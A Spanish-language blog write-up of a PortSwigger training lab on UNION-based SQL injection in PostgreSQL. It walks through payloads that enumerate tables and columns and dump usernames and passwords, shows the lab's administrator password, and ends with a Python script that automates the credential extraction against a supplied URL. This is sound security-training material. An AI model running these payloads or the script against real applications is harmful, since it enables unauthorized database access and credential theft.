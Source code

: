 ```yaml
---
title: "09 SQL injection attack, listing the database contents on non Oracle databases"
collection: publications
category: portswigger
permalink: /publications/09_SQL injection attack, listing the database contents on non Oracle databases
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría de producto. Para resolver el laboratorio, realizamos un ataque de inyección SQL basado en UNION en una base de datos PostgreSQL que recupera los nombres de usuario y las contraseñas de todos los usuarios de la aplicación.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection attack, listing the database contents on non Oracle databases'
---
```


![logo]({{site.url}}/images/SQLi/sqli-9/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-9/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, inicia sesión como usuario administrador.

## Determinamos que el campo si es vulnerable

```javascript
' or 1=1--
```

![Vulnerable]({{site.url}}/images/SQLi/sqli-9/vulnerable.png)

## Determinar el numero de columnas retornadas por la consulta

Miramos la cantidad decolumnas retornar hasta que arroje error. Vemos que nos arroja 2 columnas.

```javascript
' ORDER BY 1--
' ORDER BY 2--
```

![Order by]({{site.url}}/images/SQLi/sqli-9/order by.png)

## Miramos que columna es de tipo 'String'

Inyectamos en cada una de ellas mirando cual podemos inyectar 'String'

```javascript
' UNION SELECT 'A', NULL--
' UNION SELECT NULL, 'A'-- 
' UNION SELECT 'A', 'A'--
```

![String]({{site.url}}/images/SQLi/sqli-9/campo string.png)

## Miramos la versión de la BD

[Hoja de Trucos](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Es una BD Postgres SQL

![DB version]({{site.url}}/images/SQLi/sqli-9/DB version.png)

```javascript
' UNION SELECT version(), NULL --
```

![version]({{site.url}}/images/SQLi/sqli-7/Payload.png)

## Obtener el nombre de las tablas

Ya que conocemos el tipo de BD, debemos listar el nombre de las tablas.

```javascript
' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema='public'--
```

![Tablas]({{site.url}}/images/SQLi/sqli-9/tablas.png)

## Listamos las columnas

```javascript
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users_pzweot'--
```

```
username_jijzil
password_wjgcqi
```

![Columnas de la tabla]({{site.url}}/images/SQLi/sqli-9/columnas de la tabla.png)

## Listar username y password
Ya que conocemos las columnas de la tabla, debemos listarla. En esta ocación unimos en una sola columna

```javascript
' UNION SELECT NULL,username_jijzil || '*****' || password_wjgcqi FROM users_pzweot--
```

![Usuarios Passwords]({{site.url}}/images/SQLi/sqli-6/listado usuario y password.png)

## Procedemos a hacer el login

```
administrator
6rhx7r9m4iscbb2be39d
```

![login]({{site.url}}/images/SQLi/sqli-9/login.png)

## Solucionado

Solventado el laboratorio

![Aprobado]({{site.url}}/images/SQLi/sqli-9/aprobado.png)

# Codigo Python
```python
import requests
import sys
import urllib3 
from bs4 import BeautifulSoup
import re

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def perform_request(url, sql_payload):
    path = '/filter?category=Accessories'
    r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
    return r.text


def sqli_users_table(url):
    sql_payload = "' UNION SELECT table_name, NULL FROM information_schema.tables--"
    res = perform_request(url, sql_payload)
    soup = BeautifulSoup(res, 'html.parser')
    users_table = soup.find(text=re.compile('.*users.*'))
    if users_table:
        return users_table
    else:
        return False

def sqli_users_columns(url, users_table):
    sql_payload = "' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = '%s'--" % users_table
    res = perform_request(url, sql_payload)
    soup = BeautifulSoup(res, 'html.parser')
    username_column = soup.find(text=re.compile('.*username.*'))
    password_column = soup.find(text=re.compile('.*password.*'))
    return username_column, password_column

def sqli_administrator_cred(url, users_table, username_column, password_column):
    sql_payload = "' UNION select %s, %s from %s--" %(username_column, password_column, users_table)
    res = perform_request(url, sql_payload)
    soup = BeautifulSoup(res, 'html.parser')
    admin_password = soup.body.find(text="administrator").parent.findNext('td').contents[0]
    return admin_password

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" % sys.argv[0])
        print("[-] Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    print("Looking for a users table...")
    users_table = sqli_users_table(url)
    if users_table:
        print("Found the users table name: %s" % users_table)
        # step #5
        username_column, password_column = sqli_users_columns(url, users_table)
        if username_column and password_column:
            print("Found the username column name: %s" % username_column)
            print("Found the password column name: %s" % password_column)

            # step #6
            admin_password = sqli_administrator_cred(url, users_table, username_column, password_column)
            if admin_password:
                print("[+] The administrator password is: %s " % admin_password)
            else:
                print("[-] Did not find the administrator password.")
        else:
            print("Did not find the username and/or the password columns.")

    else:
        print("Did not find a users table.")
```